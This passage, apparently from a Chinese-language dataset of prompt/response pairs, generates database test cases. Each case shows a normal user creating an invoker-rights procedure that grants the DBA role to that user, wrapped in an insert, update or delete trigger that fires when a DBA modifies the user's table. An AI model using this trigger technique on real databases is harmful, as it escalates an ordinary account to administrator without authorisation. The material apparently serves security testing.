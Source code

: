 --创建触发器，调用函数
CREATE OR REPLACE TRIGGER insert_get_dba
    AFTER INSERT ON user1.T4
    FOR EACH ROW
BEGIN
 --调用存储过程
 call grant_dba_to_user1();
END;

--DBA用户
--插入数据，触发触发器进行授权
INSERT INTO user1.T4 VALUES('sysdba');

--user1用户
--查看权限
SELECT * FROM user_role_privs;"
生成一组测试用例，能够反应触发器通过调用存储过程实现间接提权功能,user1用户是普通用户，创建存储过程执行授权DBA，创建插入型触发器，执行该存储过程。使用DBA用户更新user1用户的表，触发触发器调用存储过程进行提权,"--user1用户
--创建表
CREATE TABLE T5(ID int, name varchar(20));
--插入数据
INSERT INTO T5 VALUES(1, 'user1');
--创建提权存储过程
CREATE OR REPLACE PROCEDURE grant_dba_to_user1
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'grant dba to user1';
    COMMIT;
END;
--创建触发器，调用存储过程
CREATE OR REPLACE TRIGGER update_get_dba_1
AFTER UPDATE ON user1.t5
FOR EACH ROW
BEGIN
 --调用存储过程
 call grant_dba_to_user1();
END;

--DBA用户
--更新数据，触发触发器进行授权
UPDATE user1.T5 SET name = 'sysdba' WHERE id = 1;

--user1用户
--查看权限
SELECT * FROM user_role_privs;"
生成一组测试用例，能够反应触发器通过调用存储过程实现间接提权功能,user1用户是普通用户，创建存储过程执行授权DBA，创建插入型触发器，执行该存储过程。使用DBA用户删除user1用户的表，触发触发器调用存储过程进行提权,"--user1用户
--创建表
CREATE TABLE T6(ID int, name varchar(20));
--插入数据
INSERT INTO T6 VALUES(1, 'user1');
--创建提权存储过程
CREATE OR REPLACE PROCEDURE grant_dba_to_user1
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'grant dba to user1';
    COMMIT;
END;
--创建触发器，调用存储过程
CREATE OR REPLACE TRIGGER delete_get_dba
AFTER DELETE ON user1.t6